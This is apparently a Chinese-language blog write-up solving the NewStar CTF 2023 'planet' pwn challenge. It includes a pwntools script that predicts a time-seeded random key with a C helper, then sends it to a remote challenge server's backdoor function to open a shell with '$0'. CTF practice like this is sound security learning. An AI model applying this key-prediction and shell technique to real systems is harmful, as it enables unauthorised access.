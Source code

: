 ```yaml
---
title: newstar2023 week5 - planet
date: 2023/10/24 12:00:00
tags:
    - result predicting
excerpt: 通过模拟攻击获取后门函数的密钥，成功利用程序漏洞获得shell。
---
```


## 文件分析

下载`planet`, NX on, PIE on, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

有后门函数，虽然有随机数，但以时间为种子，直接模拟攻击；
命令限长，就用"$0"打开shell

官方wp有对链表的利用，不管了，能打通就是好exp

## EXPLOIT

```python
from pwn import *
def payload(delay:int):
    probe = process(['seedprobe2', str(delay)])
    key = probe.recvline(False)
    print(f'key to shell is: {key.decode()}')
    probe.close()

    sh = remote('node4.buuoj.cn', 25321)
    sh.sendlineafter(b':', b'secret_passwd_anti_bad_guys')
    sh.sendlineafter(b'>', b'Admin') # enter Admin func
    sh.sendlineafter(b'>', key)      # send calced key
    sh.interactive()
    #$0
    #cat flag

payload(5)
```

```c
// seedprobe2.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#define STRLEN 31

int main(int argc, char **argv) {
    if (argc == 1) {
        puts("no time input!");
        return 0;
    } 
    int delay = -1;
    delay = atoi(argv[1]);
    if (delay == -1) {
        puts("invalid time input");
        return 0;
    }
    time_t init = time(NULL) + delay;
    srand(init);
    for (int i = 0; i < 55; i++)
        rand();
    char ret[STRLEN];
    for (int i = 0; i < STRLEN - 1; i++) 
        ret[i] = "abcdefghijklmnopqrstuvwxyz"[rand() % 26];
    ret[STRLEN - 1] = '\0';
    puts(ret);
    return 0;
}
```

## 第一次一血！

<img src="/assets/newstar2023/1stBlood.jpg" width="40%" title="好耶">

Done.
